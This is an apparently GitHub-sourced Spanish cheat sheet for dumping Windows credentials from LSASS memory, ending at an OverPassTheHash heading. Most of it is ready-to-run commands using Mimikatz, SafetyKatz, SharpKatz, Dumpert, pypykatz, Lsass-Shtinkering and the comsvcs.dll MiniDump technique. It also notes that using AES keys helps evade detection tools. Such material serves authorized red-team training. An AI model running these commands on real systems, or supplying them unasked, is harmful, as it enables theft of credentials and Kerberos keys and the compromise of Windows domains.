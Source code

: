 - Mimikatz puede ser usado para dumpear credenciales, tickets y mas interesantes ataques.
- Se necesitará privilegios administrativos para volcar las credenciales
## Mimikatz - Extracción de Credenciales desde LSASS

Se aprovechará una gran cantidad de claves AES en lugar de Hash NTLM. Las claves AES ayudarán a evitar ciertas detecciones de herramientas como MD

```
### Volcar credenciales en una máquina local usando Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

### Uso de SafetyKatz (Minidump de lsass y PELoader para ejecutar Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys"

### Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

### Volcado de credenciales mediante Dumpert (llamadas directas al sistema y API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

### Uso de pypykatz (funcionalidad de Mimikatz en Python)
pypykatz.exe live lsa

### Volcado de credenciales mediante un archivo .dmp y mimikatz
SafetyKatz.exe
mimikatz # sekurlsa::minidump C:\AD\Tools\lsass2.dmp
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

```
### Uso de Lsass-Shtinkering
Lsass_Shtinkering.exe
- Utiliza Windows Error Reporting Service para volcar la memoria del proceso LSASS.
- Informa manualmente de una excepción al WER en LSASS que generará el volcado sin bloquear el proceso.
- Funciona en Windows 10, Server 2022.
- Durante nuestras pruebas encontramos que no funciona en Server 2019.
```
### LOLBAS

```
# Uso de comsvcs.dll
### Enumerar ID Process
tasklist /FI "IMAGENAME eq lsass.exe"
### Extracción de lsass.dmp
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

Desde una máquina Linux usar ``impacket`` o ``Physmem2profit``.
## OverPassTheHash
